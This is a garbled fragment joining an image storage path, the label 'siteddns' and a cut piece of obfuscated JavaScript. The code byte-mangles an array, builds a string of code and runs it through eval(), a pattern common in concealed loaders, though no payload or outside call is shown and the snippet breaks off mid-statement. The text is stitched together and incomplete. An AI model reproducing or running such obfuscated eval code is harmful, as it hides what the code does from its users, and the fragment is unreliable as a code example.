  # siteddns
52)break;qf[sf]=(qf[sf]+qf[sf+1])&0xff;sf++;}sf="for(sf=50;sf>=2;sf--){qf[sf]=(~((-(qf[sf]^72))&0xff))&0xff;}";eval(sf);sf=49;do{if(sf
